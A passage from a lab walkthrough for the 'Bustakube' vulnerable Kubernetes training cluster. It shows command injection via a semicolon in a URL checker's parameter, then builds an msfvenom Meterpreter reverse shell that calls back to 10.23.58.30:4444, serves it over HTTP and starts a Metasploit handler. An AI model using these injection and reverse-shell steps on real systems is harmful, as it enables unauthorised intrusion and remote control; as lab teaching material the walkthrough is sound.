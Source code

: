 9. Review the output - we see there are two web servers running on ports 31391 and 31392.

10. Start up a Firefox browser.  You can use the icon in the top left menu bar, or use the same "Run" process from step 1.  Then browse to the first web application via this URL:

    <http://bustakube-controlplane:31391/>

11. Notice that you're seeing a web application that shows you flight seats purchased, with the names and ticket prices. They're all references from the movie "Airplane!"

12. Now check out the other web application. Browse to it via this URL:

    <http://bustakube-controlplane:31392/>

13. Notice that this form appears to be an URL connectivity checker from the same fictional airline. It has with a drop-down menu, so the user can only submit a few URLs for checking. Choose one the options, like this one:

    <http://bustakube-controlplane:31392/index.php?submit=submit&url=checkip.dyndns.org>

14. Try modifying that URL right in the URL bar, appending a semicolon `;` to the `url` parameter's value. If you like, you can click this link instead:

    <http://bustakube-controlplane:31392/index.php?submit=submit&url=checkip.dyndns.org%3Bid>

15. Notice that this form is clearly vulnerable to an injection attack and is adding our input to a shell command.  In using `id`, we've been told that the web server is running as user `www-data`.

16. We could keep running commands through the browser like this, but it would be more convenient to upload a more capable command and control (C2) agent like a Meterpreter. Go back to your terminal window and start a new tab by hitting `Ctrl-Shift-t`.

17. Create an ELF binary Meterpreter reverse shell with `msfvenom`, indicating that the Meterpreter should connect back to `10.23.58.30` on port `4444`.

    ```shell
    msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp \
      LHOST=10.23.58.30 LPORT=4444 -o mrsbin -f elf
    ```

18. Stage a simple web server on port `80` to serve this file:

    ```shell
    python3 -m http.server 80
    ```

19. Next you'll set up a Metasploit console that can receive an inbound connection from this Meterpreter. Start up a new terminal tab by hitting `Ctrl-Shift-t`.

20. Start up a Metasploit console:

    ```shell
    msfconsole
    ```

21. Set up a `multi/handler` to catch the shell.  Start by specifying `exploit/multi/handler`:

    ```shell
    use exploit/multi/handler
    ```
